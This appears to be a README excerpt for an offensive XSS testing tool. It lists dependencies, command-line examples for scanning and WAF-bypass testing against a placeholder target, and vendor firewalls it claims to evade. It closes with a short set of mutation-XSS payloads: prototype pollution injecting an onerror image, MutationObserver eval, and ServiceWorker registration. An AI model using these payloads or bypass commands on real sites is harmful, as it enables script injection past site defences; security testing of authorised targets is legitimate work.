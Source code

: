 **Python Dependencies:**
- Python 3.8+
- requests, beautifulsoup4, lxml
- colorama, tqdm, asyncio
- aiohttp, urllib3

### 🎯 **Usage Examples**

```bash
# Quick vulnerability scan
xss-quick -u https://target.com

# Ultimate GOD TIER testing with WAF bypass
xss-ultimate -t target.com -w cloudflare -m god_tier

# Smart payload analysis
xss-smart -u https://target.com

# Advanced payload encoding
xss-encoder -p '<script>alert(1)</script>' -w akamai

# Monitor external services
xss-service

# Bug bounty oneliners
xss-oneliners
```

## 🛡️ **WAF Detection & Bypass**

Supports 12+ major WAF providers:

- **Cloudflare** - Advanced bypass techniques
- **Akamai** - Kona Site Defender evasion
- **AWS WAF** - Application load balancer bypass
- **Imperva** - Incapsula and SecureSphere
- **F5 BIG-IP** - ASM and Advanced WAF
- **ModSecurity** - OWASP Core Rule Set bypass
- **Sucuri** - Website firewall evasion
- **Barracuda** - Web application firewall
- **Fortinet** - FortiWeb bypass techniques
- **Citrix** - NetScaler application firewall

## 🏆 **GOD TIER Payload Arsenal**

### ⚛️ **Mutation XSS (mXSS)** - DOM/Parser Desync

```javascript
// DOM prototype pollution
{"__proto__":{"innerHTML":"<img src=x onerror=alert(1)>"}}

// MutationObserver exploit
new MutationObserver(()=>eval('alert(1)')).observe(document,{childList:true,subtree:true})

// ServiceWorker injection
navigator.serviceWorker.register('data:application/javascript,self.onmessage=()=>eval("alert(1)")')
```
